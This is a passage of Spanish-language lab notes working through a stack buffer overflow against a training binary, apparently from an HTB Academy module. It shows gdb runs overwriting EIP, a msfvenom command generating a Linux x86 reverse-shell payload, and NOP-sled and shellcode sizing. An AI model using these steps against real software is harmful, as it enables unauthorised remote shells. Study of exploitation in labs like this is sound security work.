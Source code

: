 ```shell-session
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
## Determine the Length for Shellcode

Ahora debemos averiguar cuánto espacio tenemos para que nuestro shellcode realice la acción que queremos. Es muy común y útil que aprovechemos esta vulnerabilidad para obtener un shell inverso. Primero, tenemos que averiguar aproximadamente qué tamaño tendrá el shellcode que insertaremos y, para ello, utilizaremos `msfvenom`.

#### Código Shell - Longitud

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

Ahora sabemos que nuestra carga útil será de aproximadamente 68 bytes. Como precaución, deberíamos intentar utilizar un rango mayor si el código shell aumenta debido a especificaciones posteriores.

A menudo puede resultar útil insertar algunos `no operation instruction`( `NOPS`) antes de que comience nuestro shellcode para que se pueda ejecutar sin problemas. Resumamos brevemente lo que necesitamos para esto:

1. Necesitamos un total de 1040 bytes para llegar al `EIP`.
2. Aquí podemos utilizar un adicional `100 bytes`de`NOPs`
3. `150 bytes`para nuestro `shellcode`.

```shell-session
Para llegar al EIP = "\55" * 1040
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4

Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
```

![](../Images/Pasted%20image%2020240920125948.png)
